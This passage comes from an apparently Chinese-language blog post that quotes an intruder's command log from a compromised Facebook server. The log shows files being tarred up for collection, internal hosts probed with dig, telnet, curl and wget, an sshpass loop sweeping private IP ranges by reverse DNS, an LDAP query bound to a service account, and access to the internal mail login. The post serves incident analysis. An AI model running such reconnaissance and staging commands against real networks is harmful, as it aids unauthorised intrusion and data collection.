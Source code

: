 打包文件：

```
cat tmp_list3_2 | while read line; do cp /home/filex2/1000/$line files; done 2>/dev/stdout
tar -czvf files.tar.gz files
```

对内部网路结构进行探测

[![复制代码](https://assets.cnblogs.com/images/copycode.gif)](javascript:void(0);)

```
dig a archibus.thefacebook.com
telnet archibus.facebook.com 80
curl http://archibus.thefacebook.com/spaceview_facebook/locator/room.php
dig a records.fb.com
telnet records.fb.com 80
telnet records.fb.com 443
wget -O- -q http://192.168.41.16
dig a acme.facebook.com
./sshpass -p '********' ssh -v -o StrictHostKeyChecking=no soggycat@localhost 'for i in $(seq 201 1 255); do for j in $(seq 0 1 255); do echo "192.168.$i.$j:`dig +short ptr $j.$i.168.192.in-addr.arpa`"; done; done' 2>/dev/stdout
...
```

[![复制代码](https://assets.cnblogs.com/images/copycode.gif)](javascript:void(0);)

使用 Shell Script 进行内网扫描，但忘记把 STDERR 清理掉XD

![img](https://img2018.cnblogs.com/blog/1049983/201906/1049983-20190628162956658-549199538.png)

 

尝试对内部 LDAP 进行连接

```
sh: -c: line 0: syntax error near unexpected token `('
sh: -c: line 0: `ldapsearch -v -x -H ldaps://ldap.thefacebook.com -b CN=svc-accellion,OU=Service Accounts,DC=thefacebook,DC=com -w '********' -s base (objectclass=*) 2>/dev/stdout'
```

尝试访问内部网路资源 

( 看起来 Mail OWA 可以直接访问 …)

[![复制代码](https://assets.cnblogs.com/images/copycode.gif)](javascript:void(0);)

```
--20:38:09--  https://mail.thefacebook.com/
Resolving mail.thefacebook.com... 192.168.52.37
Connecting to mail.thefacebook.com|192.168.52.37|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://mail.thefacebook.com/owa/ [following]
--20:38:10--  https://mail.thefacebook.com/owa/
Reusing existing connection to mail.thefacebook.com:443.
HTTP request sent, awaiting response... 302 Moved Temporarily
Location: https://mail.thefacebook.com/owa/auth/logon.aspx?url=https://mail.thefacebook.com/owa/&reason=0 [following]
--20:38:10--  https://mail.thefacebook.com/owa/auth/logon.aspx?url=https://mail.thefacebook.com/owa/&reason=0
Reusing existing connection to mail.thefacebook.com:443.
HTTP request sent, awaiting response... 200 OK
Length: 8902 (8.7K) [text/html]
Saving to: `STDOUT'

     0K ........                                              100% 1.17G=0s

20:38:10 (1.17 GB/s) - `-' saved [8902/8902]

--20:38:33--  (try:15)  https://10.8.151.47/
```